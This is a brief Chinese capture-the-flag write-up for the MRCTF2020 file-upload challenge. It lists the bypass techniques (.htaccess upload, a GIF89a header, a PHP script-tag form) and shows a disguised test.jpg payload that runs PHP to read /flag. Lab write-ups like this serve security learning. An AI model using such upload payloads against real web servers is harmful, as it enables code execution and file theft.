

# \[MRCTF2020]你传你🐎呢

## \[MRCTF2020]你传你🐎呢

## 考点

* 文件上传.htaccess
* GIF89a文件头bypass
* `<script language='php'>phpinfo();</script>`绕过文件内容限制

## wp



再上传test.jpg

```
GIF89a
<script language='php'>print_r(readfile("/flag"));</script>
```
